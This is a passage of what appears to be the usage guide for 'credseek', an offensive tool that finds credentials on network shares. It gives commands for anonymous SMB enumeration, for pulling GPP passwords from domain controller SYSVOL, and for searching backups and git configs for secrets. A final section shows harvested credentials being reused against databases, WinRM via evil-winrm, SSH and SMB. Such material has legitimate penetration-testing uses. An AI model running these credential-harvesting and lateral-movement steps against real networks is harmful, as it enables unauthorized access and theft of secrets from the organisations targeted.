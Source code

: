 
## Common Issues

### No Shares Found
```bash
# Test SMB access
smbclient -L //192.168.1.100 -N

# Use credentials
./credseek.py iplist.txt -u user -p pass -d DOMAIN
```

### GPP Not Working
```bash
# Check you're targeting DCs
../dcseek/dcseek.py iplist.txt

# Use authenticated scan
./credseek.py --gpp dclist.txt -u user -p pass -d CORP

# Manual SYSVOL check
smbclient //dc01/SYSVOL -U user
```

### Slow Performance
```bash
# More threads
./credseek.py iplist.txt --threads 20

# Skip deep mode
./credseek.py iplist.txt  # faster
```

## Tips

✅ **Always check SYSVOL first** - GPP passwords are critical  
✅ **Use domain credentials** - More shares accessible  
✅ **Enable --deep mode** - More comprehensive search  
✅ **Search backup shares** - Often have old configs  
✅ **Check git repositories** - Credentials in .git/config  
✅ **Verify extracted creds** - May be examples/test data  

## Credential Testing

```bash
# Test on databases
mysql -h target -u extracted_user -p extracted_pass
psql -h target -U extracted_user -d database

# Test on WinRM
evil-winrm -i target -u extracted_user -p extracted_pass

# Test on SSH
ssh -i id_rsa user@target

# Test on SMB
smbclient //target/share -U extracted_user%extracted_pass
```
